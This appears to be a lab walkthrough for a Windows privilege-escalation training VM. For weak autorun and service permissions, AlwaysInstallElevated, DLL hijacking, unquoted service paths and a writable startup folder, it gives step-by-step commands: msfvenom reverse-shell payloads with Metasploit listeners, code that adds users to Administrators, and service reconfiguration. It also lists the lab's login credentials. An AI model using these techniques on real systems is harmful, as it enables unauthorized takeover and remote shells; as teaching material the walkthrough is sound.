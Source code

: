 # Windows PrivEsc Arena


<img width="1902" height="361" alt="image" src="https://github.com/user-attachments/assets/96706b9f-7faa-4ad5-8d3f-965cd8c67d44" />

---

>[!important]
> ### Let's first connect to the machine.  RDP is open on port 3389.  Your credentials are:
> #### **`username`** : user
> #### **`password`** : password321
>
> ### `For any administrative actions you might take, your credentials are:`
> #### **`username`** : TCM
> #### **`password`** : Hacker123
>

---

>[!warning]
> ### Connect To Target
> ```ruby
> xfreerdp3 /u:user /p:password321 /v:10.10.71.148 /cert:ignore /sec:rdp
> ```
> **`Or`**
>
>```ruby
> rdesktop 10.10.103.25 -u user -p password321
>```

---

<details>
  <summary>Registry Escalation</summary>





- <details>
      <summary>Autorun</summary>




  
  Windows Privilege Escalation: Insecure Autorun Permissions
  ==========================================================
  
  This guide demonstrates a privilege escalation technique by exploiting an executable in an autorun location that has insecure file permissions. The goal is to replace the legitimate program with a malicious payload, which will be executed with higher privileges when an administrator logs in.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we need to identify the vulnerable autorun program and confirm its weak permissions.
  
  1.  Scan for Autorun Programs
  
      Open a command prompt on the Windows VM and run Autoruns to inspect programs that launch on startup.
  
      
  
      ```DOS
      C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
  
      ```
  
  2.  Inspect Logon Items
  
      In the Autoruns window, click on the Logon tab to see all applications that run when a user logs in.
  
  3.  Identify the Target Program
  
      From the list, notice the "My Program" entry. Observe that it points to the following executable:
  
      ```
      C:\Program Files\Autorun Program\program.exe
  
      ```

      <img width="819" height="209" alt="image" src="https://github.com/user-attachments/assets/08b8581f-0b3a-4cc6-9c0a-8986e8ad13da" />


  4.  Check File Permissions
  
      Return to the command prompt and use accesschk64.exe to check the permissions on the program's directory.
  
      
  
      ```DOS
      C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
  
      ```

      <img width="647" height="263" alt="image" src="https://github.com/user-attachments/assets/d20be315-7309-4288-9cb4-ec06353ce661" />


  5.  Confirm the Vulnerability
  
      The output will show that the Everyone user group has ``FILE_ALL_ACCESS`` permission. This is the vulnerability, as it means any user can modify or replace the program.exe file.
  
  💥 Exploitation
  ---------------
  
  The exploitation process involves creating a malicious payload, setting up a listener to receive the connection, and replacing the original executable.
  
  ### 1\. Setting Up the Listener & Payload (Kali VM)
  
  First, we will use the Metasploit Framework to create a reverse shell payload and a listener to catch the connection.
  
  1.  **Start Metasploit**
  
      
  
      ```Bash
      msfconsole
  
      ```
  
  2.  Configure the Multi/Handler
  
      This module will listen for the incoming connection from our payload.
  
      
  
      ```Ruby
      msf6 > use multi/handler
      msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
      msf6 exploit(multi/handler) > set lhost <Your Kali VM IP Address>
  
      ```


  3.  Start the Listener
  
      The listener will now wait for a connection.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > run
  
      ```

      <img width="863" height="492" alt="image" src="https://github.com/user-attachments/assets/d70396ea-063a-465c-99a1-8d1fa4efc54e" />

  
  4.  Generate the Malicious Payload
  
      Open a new terminal window on your Kali VM. Use msfvenom to create a malicious program.exe that will connect back to your listener.
  
      
  
      ```Bash
      msfvenom -p windows/meterpreter/reverse_tcp lhost=<Your Kali VM IP Address> -f exe -o program.exe
  
      ```

     <img width="929" height="337" alt="image" src="https://github.com/user-attachments/assets/d4d93941-457d-46a8-8a3f-07f1eca288fe" />

  
  5.  Transfer the Payload
  
      Copy the newly generated program.exe file from your Kali VM to the Windows VM's desktop.

      <img width="1543" height="609" alt="image" src="https://github.com/user-attachments/assets/5daebdf6-0778-4aca-8596-96e866c26c38" />


  ### 2\. Planting the Payload (Windows VM)
  
  1.  On the Windows VM, replace the original program with your malicious payload. You can do this via the command line or file explorer:
  
      
  
      ```DOS
      move C:\Users\User\Desktop\program.exe "C:\Program Files\Autorun Program\program.exe"
  
      ```
  
      *(Confirm overwrite if prompted)*
  
  2.  To trigger the exploit, you must simulate the condition under which the program runs with elevated privileges. **Log off** from the current user session and then **log back on as an administrator**.
  
  ✅ Gaining Access & Verification
  -------------------------------
  
  When the administrator logs in, the malicious `program.exe` will execute and connect back to your listener on the Kali VM.
  
  1.  Catch the Session
  
      In your Metasploit terminal, you will see a new session being created.
  
      ```
      [*] Meterpreter session 1 opened (...)
  
      ```
  
  2.  Interact with the Session
  
      Enter the new session using its ID.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > sessions -i 1
  
      ```
  
  3.  Verify Privileges
  
      To confirm that the attack was successful and you have escalated privileges, run the getuid command. The output should show that you are running as the administrator user.
  
      
  
      ```Ruby
      meterpreter > getuid
  
      ```
  





  </details>




- <details>
      <summary>AlwaysInstallElevated</summary>


  
  
  Windows Privilege Escalation: AlwaysInstallElevated
  ===================================================
  
  This guide demonstrates how to exploit the `AlwaysInstallElevated` policy in Windows to achieve privilege escalation. When this policy is enabled in both the `HKEY_LOCAL_MACHINE` (HKLM) and `HKEY_CURRENT_USER` (HKCU) registry hives, it allows any user to install MSI packages with `NT AUTHORITY\SYSTEM` privileges.
  
  🕵️‍♂️ Detection
  ----------------
  
  The first step is to query the Windows Registry to confirm that the `AlwaysInstallElevated` policy is enabled for both the system and the current user.
  
  1.  Check the Local Machine Policy (HKLM)
  
      Open a command prompt on the Windows VM and query the following registry key:
  
      
  
      ```DOS
      reg query HKLM\Software\Policies\Microsoft\Windows\Installer
  
      ```
  
      > Confirm that the `AlwaysInstallElevated` value is present and set to `0x1`.
  
  2.  Check the Current User Policy (HKCU)
  
      Next, query the key for the current user:
  
      
  
      ```DOS
      reg query HKCU\Software\Policies\Microsoft\Windows\Installer
  
      ```
  
      > Confirm that the `AlwaysInstallElevated` value is also set to `0x1`. If both keys are set to 1, the system is vulnerable.
  
  💥 Exploitation
  ---------------
  
  Now we will generate a malicious MSI package and use it to gain a privileged shell on the target machine.
  
  ### 1\. Setting Up the Listener & Payload (Kali VM)
  
  Use the Metasploit Framework on your Kali machine to create the payload and a listener to receive the connection.
  
  1.  **Start Metasploit**
  
      
  
      ```Bash
      msfconsole
  
      ```
  
  2.  Configure the Multi/Handler
  
      This module will listen for the incoming connection from our MSI payload.
  
      
  
      ```Ruby
      msf6 > use multi/handler
      msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
      msf6 exploit(multi/handler) > set lhost <Your Kali VM IP Address>
  
      ```
  
  3.  Start the Listener
  
      The listener will now wait for a connection.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > run
  
      ```
  
  4.  Generate the Malicious MSI Payload
  
      Open a new terminal window on your Kali VM. Use msfvenom to create a malicious .msi file.
  
      
  
      ```Bash
      msfvenom -p windows/meterpreter/reverse_tcp lhost=<Your Kali VM IP Address> -f msi -o setup.msi
  
      ```
  
  5.  Transfer the Payload
  
      Copy the newly generated setup.msi file from your Kali VM to the Windows VM, placing it in a writable directory like C:\Temp.
  
  ### 2\. Executing the Payload (Windows VM)
  
  1.  On the Windows VM, open a command prompt and execute the MSI package using `msiexec`. The `/quiet` and `/qn` flags will run the installation silently in the background.
  
      
  
      ```DOS
      msiexec /quiet /qn /i C:\Temp\setup.msi
  
      ```
  
  ✅ Gaining Access
  ----------------
  
  Return to your Metasploit terminal on the Kali VM. The MSI installer will execute with `SYSTEM` privileges and connect back to your listener.
  
  1.  Catch the Privileged Shell
  
      You will see a new Meterpreter session open.
  
      ```ruby
      [*] Meterpreter session 1 opened (...)
  
      ```
  
  2.  Verify Privileges
  
      Interact with the new session and run the getuid command to confirm your identity.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > sessions -i 1
      meterpreter > getuid
      Server username: NT AUTHORITY\SYSTEM
  
      ```
  
      You have successfully escalated to the highest privilege level on the system.
  
  



  </details>





  
</details>













<details>
  <summary>Service Escalation</summary>






- <details>
      <summary>Registry</summary>





  
  Windows Privilege Escalation: Insecure Service Registry Permissions
  ===================================================================
  
  This guide demonstrates a privilege escalation technique by exploiting a Windows service with weak permissions on its associated registry key. If a user has `FullControl` over a service's registry entry, they can modify its configuration---such as the executable it runs (`ImagePath`)---to execute arbitrary code with the service's privileges, which are often `NT AUTHORITY\SYSTEM`.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we must identify that a low-privileged user has modification rights over a service's registry key.
  
  1.  Check Registry Key Permissions
  
      Open a PowerShell prompt on the Windows VM and use Get-Acl to inspect the permissions for the target service's registry key (regsvc).
  
      
  
      ```PowerShell
      Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
  
      ```

     <img width="994" height="270" alt="image" src="https://github.com/user-attachments/assets/5f376f33-75df-4868-a440-f9afb2c52cb2" />



  2.  Identify the Vulnerability
  
      In the output, examine the Access list. Notice that the NT AUTHORITY\INTERACTIVE group has FullControl permission. This is the vulnerability. The INTERACTIVE group includes any user who is logged on locally, meaning our low-privileged user can modify this key.
  
  💥 Exploitation
  ---------------
  
  The exploitation process involves creating a custom executable, modifying the vulnerable service to run it, and then starting the service to trigger our payload.
  
  ### 1\. Preparing the Payload (Kali VM)
  
  We will compile a simple C program that adds our user to the local administrators group.
  
  1.  Transfer the Source Code
  
      First, copy the source file windows_service.c from the Windows VM (C:\Users\User\Desktop\Tools\Source\) to your Kali VM.

      <img width="1305" height="253" alt="image" src="https://github.com/user-attachments/assets/e000b2bd-8f58-4ec3-8a64-befdd41c2085" />

     
  2.  Modify the Payload Command
  
      Open windows_service.c on Kali with a text editor. Find the line containing the system() function and change its command to the following, which will add a user named user to the local administrators group.
  
      
  
      ```C
      system("cmd.exe /k net localgroup administrators user /add");
  
      ```

      <img width="703" height="576" alt="image" src="https://github.com/user-attachments/assets/4d1f4a4e-f154-4199-8c1f-f6c9fd99019d" />


  
  3.  Cross-Compile the Executable
  
      Save the file and compile it for Windows using the mingw-w64 compiler. If you don't have it, install it first with `sudo apt update && sudo apt install gcc-mingw-w64`.
  
      
  
      ```Bash
      x86_64-w64-mingw32-gcc windows_service.c -o x.exe
  
      ```

     <img width="587" height="200" alt="image" src="https://github.com/user-attachments/assets/eca01cdf-f18e-49e8-a426-b577106694fd" />

  
  4.  Transfer the Payload Back
  
      Copy the newly compiled payload, x.exe, from your Kali VM to a writable directory on the Windows VM, such as C:\Temp.

     <img width="513" height="113" alt="image" src="https://github.com/user-attachments/assets/a54a9283-0bd5-400e-a9ec-651a72a6c76c" />


  ### 2\. Modifying and Triggering the Service (Windows VM)
  
  Now, we will reconfigure the service to point to our new executable and then start it.
  
  1.  Change the Service's Binary Path
  
      On the Windows VM, open a command prompt and run the reg add command to modify the ImagePath for the regsvc service. This tells the service to run our payload instead of its original program.
  
      
  
      ```DOS
      reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
  
      ```

     <img width="648" height="127" alt="image" src="https://github.com/user-attachments/assets/8a2610a0-b3df-448f-bbea-8bf1eabcd0d6" />


  2.  Start the Service to Trigger the Exploit
  
      Now, start the service. Windows will execute c:\temp\x.exe with the service's LocalSystem privileges.
  
      
  
      ```DOS
      sc start regsvc
  
      ```

     <img width="659" height="166" alt="image" src="https://github.com/user-attachments/assets/f523d731-d60c-4996-8164-7b6f566e29c9" />

   
      The command in our payload will now execute, adding the `user` to the administrators group.
  
  ✅ Verification
  --------------
  
  To confirm that the privilege escalation was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the same command prompt, type:
  
      
  
      ```DOS
      net localgroup administrators
  
      ```
  
      You will now see the `user` account listed as a member, confirming that you have successfully escalated privileges.
  
  
      **`before`**

     <img width="651" height="166" alt="image" src="https://github.com/user-attachments/assets/095264d1-ad26-478e-b106-7b2e2e013f15" />


     **`after`**

     <img width="652" height="213" alt="image" src="https://github.com/user-attachments/assets/328a56ef-cd33-412a-94d0-c49ce3b4e6fe" />



  </details>


- <details>
      <summary>Executable Files</summary>




  
  
  Windows Privilege Escalation: Insecure Service File Permissions
  ===============================================================
  
  This guide demonstrates a privilege escalation technique by exploiting a Windows service whose executable has weak file permissions. If a low-privileged user can overwrite the service's executable, they can replace it with a malicious payload. When the service is next started, the payload will execute with the high privileges of the service account, typically `NT AUTHORITY\SYSTEM`.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we need to identify a service executable with insecure permissions that allows a standard user to modify or replace it.
  
  1.  Check File Permissions
  
      Open a command prompt on the Windows VM and use accesschk64.exe to inspect the permissions for the target service executable (filepermservice.exe).
  
      
  
      ```DOS
      C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
  
      ```
  
  2.  Identify the Vulnerability
  
      The output indicates that the Everyone user group has FILE_ALL_ACCESS permission on the filepermservice.exe file. This is a critical misconfiguration, as it means any user on the system can replace this executable.
  
  ⚙️ Prerequisite: Creating the Payload
  -------------------------------------
  
  Before we can exploit this, we need to create a malicious executable (`x.exe`) that will perform our privileged action. We will use `msfvenom` on a Kali VM for this.
  
  1.  Generate the Payload
  
      On your Kali machine, run the following command to generate an executable that adds a standard user named user to the local administrators group.
  
      
  
      ```Bash
      msfvenom -p windows/exec CMD="net localgroup administrators user /add" -f exe -o x.exe
  
      ```
  
  2.  Transfer the Payload
  
      Copy the newly generated x.exe from your Kali machine to a writable directory on the Windows VM, such as C:\Temp.
  
  💥 Exploitation
  ---------------
  
  With the payload ready, we can now overwrite the original service executable and start the service to trigger our exploit.
  
  1.  Overwrite the Service Executable
  
      On the Windows VM, open a command prompt and use the copy command to replace the legitimate service executable with our malicious payload. The /y flag suppresses the overwrite confirmation prompt.
  
      
  
      ```DOS
      copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
  
      ```
  
  2.  Start the Service to Trigger the Exploit
  
      Now, start the service. Windows will execute our malicious payload with LocalSystem privileges.
  
      
  
      ```DOS
      sc start filepermsvc
  
      ```
  
      The command embedded in our payload will now run, adding the `user` to the local administrators group.
  
  ✅ Verification
  --------------
  
  To confirm that the privilege escalation was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the same command prompt, type:
  
      
  
      ```DOS
      net localgroup administrators
  
      ```
  
      You will now see the `user` account listed as a member of the group, confirming that you have successfully escalated privileges on the system.
  
  
  





  </details>


- <details>
      <summary> DLL Hijacking</summary>





  
  
  Windows Privilege Escalation: DLL Hijacking
  ===========================================
  
  This guide demonstrates a privilege escalation technique known as **DLL Hijacking**. This vulnerability occurs when a legitimate, high-privilege application attempts to load a Dynamic Link Library (DLL) from an insecure path. By placing a malicious DLL with the correct name in a user-writable directory that the application searches, an attacker can force the application to execute their code with elevated privileges.
  
  🕵️‍♂️ Detection
  ----------------
  
  We will use Process Monitor (`Procmon`) to observe a service's behavior and find a hijackable DLL path.
  
  1.  Launch Process Monitor
  
      On the Windows VM, navigate to C:\Users\User\Desktop\Tools\Process Monitor and run Procmon.exe as an administrator.
  
  2.  Set Up the First Filter (Process Name)
  
      We need to filter the events to only show activity from our target service.
  
      -   Go to `Filter > Filter...` (or press `Ctrl+L`).
  
      -   Create a rule that reads: **`Process Name` `is` `dllhijackservice.exe` `then` `Include`**.
  
      -   Click **Add**, then **Apply**.
  
  <img width="969" height="612" alt="image" src="https://github.com/user-attachments/assets/6a8e2778-9178-4a24-bdc9-4e84deb5a858" />
  
  
  
  3.  Set Up the Second Filter (Result)
  
      Next, we only want to see attempts to load files that were not successful.
  
      -   Create a second rule that reads: **`Result` `is` `NAME NOT FOUND` `then` `Include`**.
  
      -   Click **Add**, then **Apply**, and **OK**.
  
  
  <img width="842" height="466" alt="image" src="https://github.com/user-attachments/assets/05e1529a-34d6-42a2-a81c-5b7367207d7d" />
  
  
  4.  Trigger the Service
  
      Open a command prompt and start the vulnerable service to generate events in Procmon.
  
      DOS
  
      ```
      sc start dllsvc
  
      ```
  
  <img width="944" height="699" alt="image" src="https://github.com/user-attachments/assets/b15c6de7-6b51-4b83-af99-ff440e3aaf75" />
  
  
  
  5.  Analyze the Results
  
      Go back to the Process Monitor window. You will see several NAME NOT FOUND results. The key finding is an attempt to load a DLL from a user-writable directory.
  
      > The output will show that the service tried to load `hijackme.dll` from `C:\Temp`, but the operation failed because the file doesn't exist. Since `C:\Temp` is a writable location, this is our hijacking opportunity.
  
  💥 Exploitation
  ---------------
  
  Now we will create a malicious DLL, place it in the vulnerable path, and restart the service to execute our code.
  
  ### 1\. Preparing the Malicious DLL (Kali VM)
  
  1.  Transfer the Source Code
  
      Copy the source file C:\Users\User\Desktop\Tools\Source\windows_dll.c from the Windows VM to your Kali machine.
  
  <img width="1208" height="476" alt="image" src="https://github.com/user-attachments/assets/9596730f-855b-4d47-aefd-b90baea6c6b3" />
  
  
  
  2.  Modify the Payload
  
      Open windows_dll.c on Kali. Modify the system() function to execute a command that adds your user (user) to the local administrators group.
  
      C
  
      ```
      system("cmd.exe /k net localgroup administrators user /add");
  
      ```
  
  <img width="767" height="368" alt="image" src="https://github.com/user-attachments/assets/7a3372cf-2628-4177-bff2-a83f724591dc" />
  
      
  
  3.  Compile the Malicious DLL
  
      Save the file and use the mingw-w64 cross-compiler to create the DLL. The -shared flag is essential for compiling a DLL file.
  
      Bash
  
      ```
      x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
  
      ```
  
  <img width="686" height="228" alt="image" src="https://github.com/user-attachments/assets/e584f743-26c1-427f-9cbe-6cc0b30eb722" />
  
      
  
  4.  Transfer the DLL Back
  
      Copy the compiled hijackme.dll from your Kali VM to the C:\Temp directory on the Windows VM.
  
  <img width="950" height="218" alt="image" src="https://github.com/user-attachments/assets/1547550e-54a2-4f32-8e8c-25010fd84fdd" />
  
  
  ### 2\. Planting and Triggering the DLL (Windows VM)
  
  1.  With `hijackme.dll` now in `C:\Temp`, the service will find and load it upon startup. Open a command prompt and restart the service to trigger the exploit.
  
      DOS
  
      ```
      sc stop dllsvc & sc start dllsvc
  
      ```
  
  <img width="653" height="456" alt="image" src="https://github.com/user-attachments/assets/535a519a-942b-4897-8ef2-428f8600f7d9" />
  
  
      When the service starts, it will load our malicious DLL and execute the embedded command with `SYSTEM` privileges.
  
  ✅ Verification
  --------------
  
  To confirm the attack was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the command prompt, run:
  
      DOS
  
      ```
      net localgroup administrators
  
      ```
  
      You should now see the `user` account listed as a member of the administrators group, confirming a successful privilege escalation.
  
  
  




  </details>


- <details>
      <summary>binPath</summary>






  
  
  Windows Privilege Escalation: Insecure Service Permissions (binPath)
  ====================================================================
  
  This guide demonstrates a privilege escalation technique by exploiting a Windows service where a low-privileged user has permissions to modify its configuration. If a user has the `SERVICE_CHANGE_CONFIG` permission, they can alter the service's binary path (`binPath`) to execute an arbitrary command with the privileges of the service account, which is often `NT AUTHORITY\SYSTEM`.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we need to identify a service that our user has permission to reconfigure.
  
  1.  Check Service Permissions
  
      Open a command prompt on the Windows VM and use accesschk64.exe to inspect the permissions for the target service (daclsvc).
  
      
  
      ```ruby
      C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
  
      ```
  
  2.  Identify the Vulnerability
  
      The output will show a list of permissions. The key finding is that your current user (e.g., User-PC\User) has the SERVICE_CHANGE_CONFIG permission. This allows us to modify critical service parameters, including the path to its executable.
  
  💥 Exploitation
  ---------------
  
  Now we will reconfigure the service to execute a command of our choice instead of its intended program and then start it to trigger the exploit.
  
  1.  Modify the Service's Binary Path (binPath)
  
      In the command prompt, use the sc config command to change the binpath of the daclsvc service. We will set it to a command that adds our current user (user) to the local administrators group.
  
      
  
      ```ruby
      sc config daclsvc binpath= "net localgroup administrators user /add"
  
      ```
  
      > **Note:** The space after `binpath=` is required. Windows will execute whatever is in the `binpath` string when the service starts.
  
  2.  Start the Service to Trigger the Exploit
  
      Now, start the service. The Service Control Manager will attempt to run the "binary" we specified, executing our command with LocalSystem privileges.
  
      
  
      ```ruby
      sc start daclsvc
  
      ```
  
      You may see an error message stating the service did not respond in a timely fashion. This is expected, as our command runs and exits immediately, which is not the behavior of a normal service. The command will have already succeeded.
  
  ✅ Verification
  --------------
  
  To confirm that the privilege escalation was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the same command prompt, type:
  
      
  
      ```RUBY
      net localgroup administrators
  
      ```
  
      You will now see the `user` account listed as a member of the group, confirming a successful privilege escalation.
  
  




  </details>


- <details>
      <summary>Unquoted Service Paths</summary>



  
  
  
  Windows Privilege Escalation: Unquoted Service Paths
  ====================================================
  
  This guide demonstrates a privilege escalation technique by exploiting an **Unquoted Service Path**. This common misconfiguration occurs when the path to a service's executable is not enclosed in quotation marks and contains spaces.
  
  When this happens, Windows attempts to find the executable by treating each space as a delimiter. For a path like `C:\Program Files\Vulnerable Service\service.exe`, Windows will try to execute the following in order:
  
  1.  `C:\Program.exe`
  
  2.  `C:\Program Files\Vulnerable.exe`
  
  3.  `C:\Program Files\Vulnerable Service\service.exe`
  
  If an attacker can place a malicious executable in a writable directory higher up in this search order (e.g., creating `C:\Program Files\Vulnerable.exe`), they can trick the system into running their code with the service's high-level privileges.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we need to find a service with an unquoted path and confirm we have write permissions in one of the parent directories.
  
  1.  Query the Service Configuration
  
      Open a command prompt on the Windows VM and use sc qc (Query Configuration) to inspect the unquotedsvc service.
  
      
  
      ```ruby
      sc qc unquotedsvc
  
      ```
  
  2.  Identify the Unquoted Path
  
      In the output, look at the BINARY_PATH_NAME.
  
      > Notice that the path is not enclosed in quotes and contains spaces, for example: `C:\Program Files\Unquoted Path Service\unquotedpathservice.exe`. This confirms the vulnerability.
  
  3.  Check Directory Permissions
  
      Now, check if you have permission to write a file into one of the directories in the path. We will check C:\Program Files\Unquoted Path Service.
  
      
  
      ```ruby
      icacls "C:\Program Files\Unquoted Path Service"
  
      ```
  
      If the output shows that your user or a group you belong to (like `BUILTIN\Users`) has write permissions (`(W)`, `(M)`, or `(F)`), you can proceed with the exploit.
  
  💥 Exploitation
  ---------------
  
  The exploitation involves creating a malicious service executable, placing it in the vulnerable directory, and starting the service.
  
  ### 1\. Preparing the Payload (Kali VM)
  
  1.  Generate the Malicious Executable
  
      On your Kali machine, use msfvenom to create a payload. The output filename must match the part of the service path you are targeting. For C:\Program Files\Unquoted Path Service\unquotedpathservice.exe, the vulnerable file is common.exe placed inside the parent folder. We will use the -f exe-service format, which is suitable for Windows services.
  
      Bash
  
      ```ruby
      msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
  
      ```
  
  2.  Transfer the Payload
  
      Copy the newly generated common.exe file from your Kali VM to the Windows VM.
  
  ### 2\. Planting and Triggering the Exploit (Windows VM)
  
  1.  Place the Payload in the Vulnerable Path
  
      On the Windows VM, move your common.exe payload into the writable directory identified during detection.
  
      
  
      ```ruby
      move C:\Path\to\common.exe "C:\Program Files\Unquoted Path Service\"
  
      ```
  
  2.  Start the Service to Trigger the Exploit
  
      Now, start the service. When the Service Control Manager tries to launch the service, Windows will find and execute your malicious common.exe before it looks for the legitimate unquotedpathservice.exe.
  
      
  
      ```ruby
      sc start unquotedsvc
  
      ```
  
      The service may fail to start correctly, but our embedded command will have already executed with `SYSTEM` privileges.
  
  ✅ Verification
  --------------
  
  To confirm that the privilege escalation was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the command prompt, type:
  
      
  
      ```ruby
      net localgroup administrators
  
      ```
  
      You will now see the `user` account listed as a member of the group, confirming a successful privilege escalation.
  
  







  </details>
  
  
  
  






  
</details>
















<details>
  <summary>Privilege Escalation - Startup Applications</summary>



Windows Persistence & PrivEsc: Writable Startup Folder
======================================================

This guide demonstrates a persistence and potential privilege escalation technique by exploiting a globally writable "All Users" Startup folder. If a low-privileged user can place an executable in this folder, that program will automatically run whenever *any* user---including an administrator---logs into the system. This can be used to gain a shell with the privileges of the user who logs in next.

🕵️‍♂️ Detection
----------------

First, we need to check the permissions of the `All Users` Startup folder to see if it's writable by our current user.

1.  Check Folder Permissions

    Open a command prompt on the Windows VM and use icacls.exe to inspect the permissions for the Startup folder.

    

    ```DOS
    icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

    ```

2.  Identify the Vulnerability

    In the output, look for the permissions granted to the BUILTIN\Users group. If it shows (F) for Full Access or (M) for Modify access, the folder is writable, and the system is vulnerable to this technique.

💥 Exploitation
---------------

The exploitation process involves creating a reverse shell payload, placing it in the vulnerable Startup folder, and waiting for a privileged user to log in.

### 1\. Setting Up the Listener & Payload (Kali VM)

Use the Metasploit Framework on your Kali machine to create the payload and a listener to receive the connection.

1.  **Start Metasploit**

    

    ```Bash
    msfconsole

    ```

2.  Configure the Multi/Handler

    This module will listen for the incoming connection from our payload.

    

    ```Ruby
    msf6 > use multi/handler
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set lhost <Your Kali VM IP Address>

    ```

3.  Start the Listener

    The listener will now wait for a connection.

    

    ```Ruby
    msf6 exploit(multi/handler) > run

    ```

4.  Generate the Malicious Payload

    Open a new terminal window on your Kali VM. Use msfvenom to create a malicious .exe file.

    

    ```Bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your Kali VM IP Address> -f exe -o x.exe

    ```

5.  Transfer the Payload

    Copy the newly generated x.exe file from your Kali VM to a temporary location on the Windows VM (e.g., the Desktop).

### 2\. Planting the Payload (Windows VM)

1.  On the Windows VM, move your payload into the vulnerable Startup folder.

    

    ```DOS
    move C:\Users\User\Desktop\x.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\"

    ```

2.  To trigger the exploit, **log off** from the current user.

3.  Now, **log in with an administrator account**. When the administrator's desktop loads, the `x.exe` file in the Startup folder will be automatically executed.

✅ Gaining Access & Verification
-------------------------------

Return to your Metasploit terminal on the Kali VM. The payload will connect back to your listener.

1.  Catch the Session

    You will see a new Meterpreter session open. This session is running with the privileges of the administrator who just logged in.

    ```
    [*] Meterpreter session 1 opened (...)

    ```

2.  Verify Privileges

    Interact with the new session and run the getuid command to confirm the user context.

    

    ```Ruby
    meterpreter > getuid
    Server username: User-PC\Admin

    ```

    The output confirms the payload is running as the `Admin` user, successfully capturing a privileged session.



  
</details>








<details>
  <summary>Potato Escalation - Hot Potato</summary>
</details>








<details>
  <summary>Password Mining Escalation</summary>





- <details>
      <summary> Configuration Files</summary>
  </details>



- <details>
      <summary>Memory</summary>
  </details>





  
</details>



<details>
  <summary>Privilege Escalation - Kernel Exploits</summary>
</details>











